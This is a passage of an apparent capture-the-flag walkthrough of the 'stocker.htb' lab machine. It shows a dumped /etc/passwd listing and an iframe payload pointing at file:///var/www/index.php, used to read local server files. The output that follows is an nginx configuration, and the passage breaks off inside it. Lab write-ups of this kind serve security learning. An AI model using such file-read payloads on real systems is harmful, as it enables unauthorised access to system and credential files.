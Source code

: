 ```text
Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh
user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```

The users "angoose" and "mongodb" seems interesting :

```text
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

During the network service enumeration, we found that there was nginx on stocker.htb, do we can start by having its configuration. This can be usefull to get information on the running application :

```text
Payload='<iframe src=file:///var/www/index.php height=1050px width=1200px></iframe>'
```

The width and height have bee adjusted in order to get the maximum of information.

```text
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
    worker_connections 768;
    # multi_accept on;
}
http {
    ##
    # Basic Settings
    ##

    sendfile on;
    tcp_nopush on;
    tcp_nodelay on;
    keepalive_timeout 65;
    types_hash_max_size 2048;
    # server_tokens off;
    
    # server_names_hash_bucket_size 64;
    # server_name_in_redirect off;
    
    include /etc/nginx/mime.types;
    default_type application/octet-stream;
    
    ##
    # SSL Settings
    ##
```